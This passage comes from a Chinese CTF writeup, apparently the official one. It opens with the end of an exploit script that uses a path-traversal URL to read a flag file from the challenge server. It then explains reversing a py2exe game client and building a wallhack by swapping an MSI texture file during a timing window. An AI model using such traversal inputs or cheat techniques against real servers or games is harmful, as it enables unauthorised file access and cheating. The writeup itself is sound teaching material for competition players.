    assert txt=='{}'
    
    txt = urllib_req(SERVER_URL+'/api////////////../../../../tmp/1')
    flag2 = bytes(json.loads(txt)['data']).decode()
    print(flag2)
    assert 'flag{' in flag2
```


**命题思路**

本题 Flag 0 和 Flag 1 难度比较正常。

Flag 2 故意出的比较难（也不能说难，就是要绕的东西比较多），需要对 Linux 文件描述符、JavaScript 编程、常见 URL 路由方式等等话题都有一定了解。因为这是 Web 的压轴题，不能让 Web 比 Binary 水太多，不然 Web 大神看到隔壁 Binary 老哥直线上分，自己会做的题却水的一批，就要激怒了。

另外这题需要在 URL 里面输入很长的参数，而很多服务器都默认限制了 URL 的长度。我们在部署的时候调了调使得它接受最长 32KB 的 URL，在写 exp 的时候需要注意控制一下字数。


## 电子游戏概论 (pygame)

**预期解法**

首先容易观察出此题是用 py2exe 打包的：



在网上可以找到一个 [解包脚本](https://github.com/matiasb/unpy2exe)，但是它不太能用。这是因为比较新的 Python 3.8 版本 pyc 文件头格式[发生了一些变化](https://www.python.org/dev/peps/pep-0552/)，在时间戳后面增加了 4 个字节。把解包脚本的 `__timestamp()` 函数改一改也多加 4 个 0x00，生成的 pyc 就可以丢给 uncompyle6 反编译了。

至于如何判断代码是 Python 3.8？可以这样：



另外 py2exe 会把运行的那个文件和它 import 的库打包到不同位置，前者需要用上述过程解包，后者是 exe 里直接带了一个 zip。把 exe 扩展名改成 zip 打开，即可看到所有第三方库 ↓



*（安利好压 5.8 版本，只需关闭自动更新，免费好用功能全面界面好看没有广告）*

总之这样就可以拿到所有 pyc。uncompyle6 反编译出的代码基本和真实代码一致，只有少数地方的缩进不一样，很容易用人眼看出来。

做出 Flag 1 需要你注意到服务器在返回地图数据的时候其实是带了一些额外信息的。如果仔细看看地图上每块的类型，可以发现：

```python
class Elem(CheckerMixin):
    dirt = 1
    evildirt = 2
    empty = 3
    fire = 4
    heart = 5
    chunk1 = 6
    chunk2 = 7
    chunk3 = 8
    chunks = [6, 7, 8]
    player = 9
```

这里 evildirt 吸引了我们的注意力，事实上它表示这个格子是能挖出火的格子。如果把这个信息显示出来，我们就做了一个 “透视挂”。

再看看代码是如何绘制地图的。核心函数如下：

```python
def load_texture():
    db = msilib.OpenDatabase('textures.msi', msilib.MSIDBOPEN_READONLY)
    def get_key(db, k):
        v = db.OpenView('select `Text` from UIText where `Key`=?')
        args = msilib.CreateRecord(1)
        args.SetString(1, k)
        v.Execute(args)
        rec = v.Fetch()
        ret = rec.GetString(1)
        v.Close()
        return ret

    def load_image(key):
        data = get_key(db, key)
        data = base64.b64decode(data.encode())
        return PhotoImage(data=data)

    global material
    global player

    material = {
        Elem.chunk1: load_image('chunk1'),
        Elem.chunk2: load_image('chunk2'),
        Elem.chunk3: load_image('chunk3'),
        Elem.dirt: load_image('dirt'),
        Elem.evildirt: load_image('evildirt'),
        Elem.empty: load_image('empty'),
        Elem.fire: load_image('fire'),
        Elem.heart: load_image('heart'),
    }
    player = {
        'LeftNormal': load_image('playerL'),
        'RightNormal': load_image('playerR'),
        'LeftHurt': load_image('playerHurtL'),
        'RightHurt': load_image('playerHurtR'),
    }
    db.Close()
```

它从 `textures.msi` 文件里为每一种类型都加载一个图标。使用 Orca 这样的免费软件可以查看并修改 msi 文件：



发现 evildirt 和 dirt 的内容一样，因此显示出来是完全相同的图案。果断修改成不一样的内容，重新打开游戏，然后发现……游戏崩了。

这是因为游戏在启动之前会把 `texture.msi` 的内容作为通信加密秘钥（如下），修改了内容后秘钥就变了，于是无法完成握手：

```python
with open('textures.msi', 'rb') as f:
    PSK = hashlib.sha256(f.read()).digest()
    assert len(PSK)==32
```

但是，计算秘钥的时机是程序启动的时候，加载图标的时机是在输入完 Token 开始游戏的时候。可以利用这个时间差，在程序询问 Token 的时候再替换 `texture.msi` 文件，即可正常进入游戏。透视效果如下（红色的土块表示有火）：



开了透视挂之后，手玩差不多就能打到 15 关，可以拿到 Flag 1。

Flag 2 有时间限制，显然是希望开发一个自动过关的 AI。选手需要完全逆向出通信逻辑，然后用一些算法（DP 应该可以）自动计算怎么挖最好，可以轻松杀穿 15 关。这个 AI 其实我也没写，只是写了一个半自动的手玩脚本。但既然人能玩到 15 关，算法当然也行。


**命题思路**

其实此题类别一开始是 Binary，但是因为 Binary 题目比较多，此题的 Flag 2 也确实需要写点算法，于是就把分类挪到了 Algorithm。现在来看这个分类可能误导了一些人，深表歉意（

此题 C/S 之间的通讯协议其实是我看了一篇分析 botnet 流量的文章然后仿出来的。所有流量都进行了加密，而且客户端固定了服务端的公钥，以避免选手通过抓包或者中间人攻击逃课的行为。

另外此题具有一定的反作弊功能。游戏客户端会收集主机名和软硬件版本信息（如下），从而方便裁判交叉对比选手间交换附件的情况：

```python
def get_platform_name():
    u = platform.uname()
    name = '%s (%s %s) on %s'%(u.node, u.system, u.version, u.processor)
    name = name.encode()
    name = name[:500]
    return name
```

对着服务器上的日志目测了一下，纯手玩好像最多有人能过 11 关，真是 nb 啊

附冷知识一则：**按向上键可以往前挖。** 审 writeup 的时候看到有人外挂都开发出来了，但是不知道怎么横向移动，真是太惨了……